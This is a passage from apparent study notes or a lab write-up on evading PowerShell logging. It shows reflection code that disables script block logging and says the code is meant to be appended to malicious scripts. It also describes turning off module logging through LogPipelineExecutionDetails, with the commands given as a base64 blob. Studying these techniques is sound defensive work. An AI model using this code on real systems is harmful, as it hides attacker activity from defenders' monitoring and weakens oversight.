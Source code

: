 ```powershell
$GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockInvocationLogging'] = 0
```

##### Compiling these steps together and appending them to a malicious PowerShell script.

```powershell
$GroupPolicySettingsField = [ref].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySettings', 'NonPublic,Static')
$GroupPolicySettings = $GroupPolicySettingsField.GetValue($null)

$GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockLogging'] = 0

$GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockInvocationLogging'] = 0
```

- **Note**: The core functionality of the script is identical to the above code but slightly modified to comply with PowerShell v.5.1 updates.

- To prove the efficacy of the script, we can execute it and measure the number of returned events from a given command:
![](/assets/img/Pasted image 20230123021657.png)

	- The first terminal, we see there are three events generated when the Powershell script is run with the command "whoami".
	- In the second terminal, after the script is executed we see that there are NO events generated from running a command.


---------
# Abusing Log Pipeline

- Within PowerShell, each module or snap-in has a setting that anyone can use to modify its logging functionality.
- From the Microsoft docs:

		- When the "LogPipelineExecutionDetails" property value is TRUE($true), Windows PowerShell writes cmdlet and function execution events in the session to the Windows PowerShell log in Event Viewer.

- An attack can `change this value` to `$false` in any PowerShell session to **disable a module logging** for that specific reason.
- The Microsoft docs even note the ability to `disable logging from a user session`:

		- To disable logging, use the same command sequence to set the property value to FALSE ($false).

<u>At high level the log pipeline technique can be broken up into four steps</u>:

	1.  Obtain the target module.
	2.  Set module execution details to `$false`.
	3.  Obtain the module snap-in.
	4.  Set snap-in execution details to `$false`.

```
JG1vZHVsZSA9IEdldC1Nb2R1bGUgTWljcm9zb2Z0LlBvd2VyU2hlbGwuVXRpbGl0eSAjIEdldCB0YXJnZXQgbW9kdWxlCiRtb2R1bGUuTG9nUGlwZWxpbmVFeGVjdXRpb25EZXRhaWxzID0gJGZhbHNlICMgU2V0IG1vZHVsZSBleGVjdXRpb24gZGV0YWlscyB0byBmYWxzZQokc25hcCA9IEdldC1QU1NuYXBpbiBNaWNyb3NvZnQuUG93ZXJTaGVsbC5Db3JlICMgR2V0IHRhcmdldCBwcy1zbmFwaW4KJHNuYXAuTG9nUGlwZWxpbmVFeGVjdXRpb25EZXRhaWxzID0gJGZhbHNlICMgU2V0IHBzLXNuYXBpbiBleGVjdXRpb24gZGV0YWlscyB0byBmYWxzZQ==
```
